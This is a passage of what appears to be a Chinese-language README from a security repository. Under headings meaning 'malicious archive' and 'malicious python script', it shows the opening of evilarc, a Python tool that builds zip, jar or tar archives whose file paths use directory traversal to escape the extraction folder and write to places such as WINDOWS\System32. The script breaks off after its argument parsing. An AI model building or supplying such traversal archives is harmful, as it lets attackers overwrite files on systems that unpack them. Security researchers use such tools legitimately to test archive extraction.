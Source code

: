 > 恶意压缩文件

evil.zip

![image-20220227164451684](README/image-20220227164451684.png)

恶意python脚本

```python
import sys, zipfile, tarfile, os, optparse

def main(argv=sys.argv):
	p = optparse.OptionParser(description = 'Create archive containing a file with directory traversal', 
								prog = 'evilarc',
								version = '0.1',
								usage = '%prog <input file>')
	p.add_option('--output-file', '-f', dest="out", help="File to output archive to.  Archive type is based off of file extension.  Supported extensions are zip, jar, tar, tar.bz2, tar.gz, and tgz.  Defaults to evil.zip.")
	p.set_default("out", "evil.zip")
	p.add_option('--depth', '-d', type="int", dest="depth", help="Number directories to traverse. Defaults to 8.")
	p.set_default("depth", 8)
	p.add_option('--os', '-o', dest="platform", help="OS platform for archive (win|unix). Defaults to win.")
	p.set_default("platform", "win")
	p.add_option('--path', '-p', dest="path", help="Path to include in filename after traversal.  Ex: WINDOWS\\System32\\")	
	p.set_default("path", "")
	options, arguments = p.parse_args()
	
	if len(arguments) != 1:
		p.error("Incorrect arguments")
		
	fname = arguments[0]
	if not os.path.exists(fname):
```